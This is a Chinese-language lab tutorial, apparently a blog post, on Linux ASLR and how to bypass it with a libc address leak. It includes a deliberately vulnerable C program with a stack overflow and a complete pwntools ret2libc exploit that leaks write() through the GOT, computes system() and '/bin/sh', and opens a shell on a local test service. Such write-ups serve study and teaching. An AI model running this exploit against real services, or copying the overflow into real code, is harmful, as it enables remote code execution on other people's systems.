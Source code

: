 ### 1.1  Linux下的ASLR内存保护机制

#### 1.1.1  Linux下的ASLR工作原理

工作原理与window下的aslr类似

 ![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142730266-504241689.png)

#### 1.1.2 Linux下利用内存地址泄露绕过ASLR

##### ⑴. 原理分析：

那么如何解决地址随机化的问题呢？

思路是：我们需要先泄漏出libc.so某些函数在内存中的地址，然后再利用泄漏出的函数地址根据偏移量计算出system()函数和/bin/sh字符串在内存中的地址，然后再执行我们的ret2libc的shellcode。既然栈，libc，heap的地址都是随机的。我们怎么才能泄露出libc.so的地址呢？方法还是有的，因为程序本身在内存中的地址并不是随机的，所以我们只要把返回值设置到程序本身就可执行我们期望的指令了。

首先我们利用objdump来查看可以利用的plt函数和函数对应的got表：

 ![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142755931-669070785.png)

 ![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142817936-96151926.png)

我们发现除了程序本身的实现的函数之外，我们还可以使用read@plt()和write@plt()函数。但因为程序本身并没有调用system()函数，所以我们并不能直接调用system()来获取shell。但其实我们有write@plt()函数就够了，因为我们可以通过write@plt  ()函数把write()函数在内存中的地址也就是write.got给打印出来。既然write()函数实现是在libc.so当中，那我们调用的write@plt()函数为什么也能实现write()功能呢?  这是因为linux采用了延时绑定技术，当我们调用write@plit()的时候，系统会将真正的write()函数地址link到got表的write.got中，然后write@plit()会根据write.got 跳转到真正的write()函数上去。（如果还是搞不清楚的话，推荐阅读《程序员的自我修养 - 链接、装载与库》这本书）

因为system()函数和write()在libc.so中的offset(相对地址)是不变的，所以如果我们得到了write()的地址并且拥有目标服务器上的libc.so就可以计算出system()在内存中的地址了。然后我们再将pc指针return回vulnerable_function()函数，就可以进行ret2libc溢出攻击，并且这一次我们知道了system()在内存中的地址，就可以调用system()函数来获取我们的shell了。

##### ⑵．环境准备：

i．漏洞代码：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void flow(){
  char buf[128];
  read(STDIN_FILENO,buf,256);
}

int main(){
  flow();
  char a[]="hello";
  write(STDOUT_FILENO,a,strlen(a));
  return 0;
}

编译指令：
gcc -fno-stack-protector -g -m32 -o vuln vuln.c
```

ii．测试环境：

测试系统：Ubuntu 16.04

辅助插件：peda

系统开启aslr：

![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142843753-614701930.png) 

##### ⑶．测试分析：

i．存在漏洞的函数flow返回地址：

反汇编主函数：

![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142907399-477699356.png) 

漏洞函数位置：0x0804846b。

 

ii．确定偏移量：

利用pattern.py脚本实现(可以在GitHub上下到)：

生成150字节的字符串

![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142930272-2093926147.png) 

在调试器运行程序：

 ![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613142951734-1054619155.png)

返回地址被覆盖为0x37654136： 

确定偏移：

![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613143016271-581328692.png) 

偏移量为140字节。

##### ⑷．攻击过程：

i．exp脚本：

```py
\#!/usr/bin/env python

from pwn import *

 

libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('/home/zhang/pass_NX/vuln')

 
p = remote('127.0.0.1', 10003)

 
plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
vulfun_addr = 0x804846b
print 'vulfun= ' + hex(vulfun_addr)

 
“””plt_write是主程序中write函数的地址，也是write@plt()函数的地址，后面是write函数的参数，将got表中的write()函数的真实地址写入到stdout。”””
payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)
 

print "\n###sending payload1 ...###"
p.send(payload1)


print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

 
print "\n###calculating system() addr and \"/bin/sh\" addr...###"
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print 'system_addr= ' + hex(system_addr)
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
print 'binsh_addr= ' + hex(binsh_addr)

 
payload2 = 'a'*140 + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

 
print "\n###sending payload2 ...###"
p.send(payload2)
p.interactive()
```



ii. 运行脚本，攻击成功：

![img](Linux下的ASLR（PIE）内存保护机制和绕过.assets/1206693-20180613143050665-183788241.png)